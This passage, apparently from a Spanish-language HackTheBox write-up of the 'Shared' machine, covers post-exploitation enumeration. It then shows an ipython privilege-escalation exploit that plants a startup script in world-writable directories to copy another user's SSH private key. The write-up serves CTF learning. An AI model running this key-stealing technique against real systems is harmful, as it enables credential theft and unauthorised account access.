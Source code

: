 ```bash
# Veo que el usuario james_mason pertenece al grupo developer
=============================================================
uid=1000(james_mason) gid=1000(james_mason) groups=1000 (james_mason),1001(developer)
```

También encuentro algo más curioso aún... tenemos el puerto 6379 corriendo en local (el puerto 6379 suele ser redis).

![](/assets/images/HTB/Shared-HackTheBox/redis.webp)

Pero por el momento no he encontrado nada útil... asique lanzo pspy64 para buscar procesos que se ejecuten ocultos.

![](/assets/images/HTB/Shared-HackTheBox/pspy64.webp)

Veo que se ejecutan ciertas cosas bajo el UID 1001 (developer) tirando del comando ipython...

Asique me pongo a buscar vulnerabilidades de ipython o algún tipo de escalada de privilegios y encuentro el siguiente repositorio de github.

[https://github.com/advisories/GHSA-pq7m-3gw7-gq5x](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x)

```bash
# Sigo los pasos para intentar leer la clave rsa del usuario dan_smith.
=======================================================================
mkdir -m 777 /opt/scripts_review/profile_default/
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo "import os;os.system('cat ~/.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/elc4br4.py
# Debemos ejecutar rápidamente estos 3 comandos, sino no funcionará.
```

![](/assets/images/HTB/Shared-HackTheBox/rsa.webp)
